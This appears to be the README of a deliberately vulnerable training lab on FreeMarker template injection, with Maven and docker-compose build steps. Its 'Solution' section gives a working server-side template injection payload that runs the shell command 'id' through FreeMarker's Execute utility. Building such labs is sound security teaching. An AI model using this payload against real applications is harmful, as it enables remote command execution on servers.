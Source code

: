 # Template Injection Freemarker

## Build instructions

Requirements:
 - Docker
 - Docker-compose
 - Maven
 - Java

```
mvn clean install
```

```
docker-compose up
```

## Solution

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```
